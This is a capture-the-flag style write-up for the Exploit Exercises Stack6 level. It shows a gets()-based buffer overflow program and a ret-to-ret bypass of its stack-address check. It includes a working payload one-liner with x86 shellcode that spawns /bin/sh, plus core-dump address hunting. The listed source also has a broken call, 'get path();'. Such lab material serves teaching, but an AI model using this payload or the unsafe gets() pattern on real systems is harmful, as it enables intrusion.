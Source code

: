 # Exploit Exercises Stack6
## code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xbf000000) == 0xbf000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }

    printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
    get path();
}

```
## Principle

At this task ,program adds a check that does **not allow the return address to be a stack address (ret& 0xbf000000).** So we can not just overflow the return address to be our shellcode (which locates at stack). It's quite easy to solve the problem! We allocate memory at stack as follow:

![](overflow.jpg)

Return instructions address(main's ret addr also works):
![](ret_addr.png)

As ret instruction addr(0x080484f9) can bypass the return check, we now ret to "ret instruction" and program will pop esp, leading the payload address to be in the [esp]. Executing ret instruction again, program runs payload!

exploit code:
```
python -c 'print "A"*0x50+"\xf9\x84\x04\x08"+"\xf4\xf7\xff\xbf"+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" ' > /tmp/stack6_exploit.txt
```

It did work in gdb:

![](exploit_gdb.png)

However, when I try to execute exploit script out of gdb, it crashs:

![](crash.png)

It is not surprising, as we wrote the payload address as **hardcode**. Stack address changes in different situations, so all we need to do is to find out the real address of payload when program executes without gdb.

I found a way to determine the stack address of payload: **use core dump**.
But it need a "root" permission:

![](core_dump.png)

We generate the core_dump file! Use **cat /proc/sys/kernel/core_pattern**  to get the filepath of core_dump.

Using core_dump helps us determine the address of payload:

![](final.png)

esp changes to **0xbffff800**, so payload address should be **0xbffff804**:

![](result.png)

Hack!

## Summary

Actually I found that codes under the ret instruction of main is:
![](other_0.png)

nops,push,mov,pop do not influence the stack content, so we can use **0x08048508~0x08048510** and **0x08048514** as our "ret instruction address".(Executing pop without push is not allowed!)

![](other_1.png)
